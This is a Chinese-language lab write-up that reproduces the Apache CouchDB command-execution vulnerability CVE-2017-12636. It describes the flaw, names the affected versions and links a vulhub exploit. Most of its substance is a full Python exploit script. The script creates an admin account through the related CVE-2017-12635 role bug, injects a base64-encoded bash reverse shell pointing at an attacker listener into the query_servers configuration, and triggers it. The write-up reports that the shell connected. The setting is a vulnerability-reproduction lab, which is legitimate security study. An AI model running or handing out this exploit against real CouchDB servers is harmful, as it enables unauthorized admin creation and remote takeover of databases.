 # Couchdb 任意命令执行漏洞（CVE-2017-12636）

> 漏洞说明

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置query_server，这个配置项在设计、执行view的时候将被运行。



> 前提条件

版本：Apache CouchDB < 1.7.0	Apache CouchDB < 2.1.1



> 利用工具

[EXP](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py)



> 漏洞复现

Couchdb 2.x和和1.x的API接口有一定区别，利用方式也不同。但命令执行需要登录用户触发，可以根据CVE-2017-12635创建管理员用户。

开启监听

![image-20221230222827381](../img/Apache-CouchDB_CVE-2017-12636/image-20221230222827381.png)

修改EXP中target、command及对应版本version(1或2)

```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://192.168.40.77:5984'
command = rb"""sh -i >& /dev/tcp/192.168.40.1/4321 0>&1"""
version = 1

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

执行脚本，成功反弹shell

![image-20221230223257231](../img/Apache-CouchDB_CVE-2017-12636/image-20221230223257231.png)

